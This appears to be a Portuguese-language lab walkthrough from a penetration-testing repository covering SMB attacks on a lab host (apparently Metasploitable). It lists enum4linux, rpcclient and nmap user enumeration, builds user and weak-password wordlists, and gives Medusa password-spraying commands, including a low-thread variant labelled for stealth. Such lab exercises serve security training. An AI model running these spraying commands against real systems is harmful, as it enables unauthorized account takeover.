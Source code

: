 ## 💻 Enumeração e Ataque SMB

### 1. Enumeração de Usuários SMB
```bash
# Enumeração básica com enum4linux
enum4linux -a 192.168.56.101

# Salvar output para análise
enum4linux -a 192.168.56.101 | tee enum4_output.txt

# Filtrar informações específicas
grep -i "user" enum4_output.txt
grep -i "account" enum4_output.txt

# Enumeração com rpcclient
rpcclient -U "" -N 192.168.56.101
# Comandos dentro do rpcclient:
# > enumdomusers
# > quit

# Scan SMB com nmap scripts
nmap --script smb-enum-users 192.168.56.101
nmap --script smb-os-discovery 192.168.56.101
```

### 2. Criação de Wordlists para SMB
```bash
# Extrair usuários do enum4linux
grep "Local User" enum4_output.txt | awk '{print $4}' | grep -v "nobody" > smb_users.txt

# Adicionar usuários comuns do Windows/Samba
echo -e 'administrator\nguest\nftp\nwww-data\nmysql\nbackup' >> smb_users.txt

# Criar lista de senhas para spraying
echo -e 'password\n123456\nadmin\n1234\n12345\nqwerty' > smb_pass.txt

# Verificar listas finais
cat smb_users.txt
cat smb_pass.txt
```

### 3. Ataque de Password Spraying SMB
```bash
# Ataque básico com Medusa
medusa -h 192.168.56.101 -U smb_users.txt -P smb_pass.txt -M smbnt

# Ataque com menos threads para stealth
medusa -h 192.168.56.101 -U smb_users.txt -P smb_pass.txt -M smbnt -t 2

# Ataque com timeout aumentado
medusa -h 192.168.56.101 -U smb_users.txt -P smb_pass.txt -M smbnt -t 2 -T 50

# Ataque focado em usuários específicos
medusa -h 192.168.56.101 -u msfadmin -P smb_pass.txt -M smbnt -f
```

